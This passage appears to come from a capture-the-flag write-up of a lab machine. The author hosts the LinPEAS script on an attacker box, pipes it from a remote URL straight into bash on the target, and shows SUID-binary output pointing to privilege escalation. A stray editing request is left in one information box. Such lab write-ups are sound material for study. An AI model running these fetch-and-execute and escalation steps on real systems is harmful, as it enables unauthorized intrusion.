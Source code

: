### 7. LinPEAS
*We run the LinPEAS script to identify potential privilege escalation vectors:*

> [! INFORMATION]
> 
> **Linpeas**  is a script that helps **identify potential security weaknesses** in a **Linux** environment. It checks for various **misconfigurations, file permissions, and other vulnerabilities** that could be exploited to gain **elevated privileges.**

```
--------------------------------------------------------------------------------------------------------------------------
								Shell - Attacking machine
								
kali # python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.11 - - [09/Jan/2025 05:39:54] "GET /linpeas.sh HTTP/1.1" 200 -

--------------------------------------------------------------------------------------------------------------------------
								Shell - Target machine
								
larissa@boardlight:~$ curl http://10.10.14.52:8000/linpeas.sh | bash

--------------------------------------------------------------------------------------------------------------------------
```

> [!INFORMATION]
> 
> can you concise this : This starts a simple HTTP server, serving files from the current directory on port 8000 . The command utilizes Python's built-in HTTP server functionality, which allows us to host files easily. The curl command fetches the script from our specified URL, piping its contents directly into bash for execution

```
╔════════════════════════════════════╗
══════════════════════╣ Files with Interesting Permissions
╠══════════════════════
╚════════════════════════════════════╝
[...]
-rwsr-sr-x 1 root root 15K Apr 8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29 2020 /usr/lib/x86_64-linux-
gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID
binary!)
[...]
```
